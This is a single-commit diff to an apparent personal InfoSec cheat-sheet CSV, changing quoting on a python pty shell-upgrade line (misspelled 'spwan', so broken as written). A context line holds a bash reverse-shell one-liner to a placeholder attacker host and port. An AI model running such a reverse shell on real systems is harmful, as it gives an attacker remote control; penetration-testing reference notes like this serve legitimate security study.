

Before and after one commit to HarshitKhurana/InfoSec, a CSV file: SimpleTools|Commands.csv, drawn as a sheet.

Commit message:
single quote for csv beautifying-5

```diff
--- a/SimpleTools|Commands.csv
+++ b/SimpleTools|Commands.csv
@@ -12,2 +12,2 @@ gdb->list funcitons,:, To list all functions used in a binary
 bash -c 'bash -i </dev/tcp/AttackerIp/AttackerPort 2>&1 >&0' ,:,  Reverse shell on attacker machine using bash
-python3 -c 'import pty;pty.spwan(\'/bin/bash\')' ,:, Gives a shell/terminal with some pre-built features like tab completion etc
+python3 -c 'import pty;pty.spwan('/bin/bash')' ,:, Gives a shell/terminal with some pre-built features like tab completion etc
```
